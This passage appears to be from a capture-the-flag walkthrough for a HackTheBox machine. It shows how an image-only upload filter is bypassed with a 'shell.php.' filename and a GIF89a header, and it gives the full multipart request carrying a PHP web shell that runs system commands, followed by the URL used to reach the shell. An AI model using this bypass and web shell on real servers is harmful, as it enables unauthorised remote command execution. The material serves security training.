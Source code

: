 ![](images/Pasted%20image%2020250713021434.png)
That means we can try to upload the malware to get the reverse shell.

Since it only restricts us from uploading pictures, we can bypass it using `burpsuite`. We need to add a dot after `php` to bypass it.
```
-----------------------------339973873135885886474223684192
Content-Disposition: form-data; name="upload"; filename="shell.php."
Content-Type: image/jpg

GIF89a
<?php $_="cmd"; @system($_REQUEST[$_]); ?>
-----------------------------339973873135885886474223684192--
```
![](images/Pasted%20image%2020250713022741.png)
Then we can come to this path 
```
http://environment.htb/storage/files/123.php?cmd=phpinfo();
```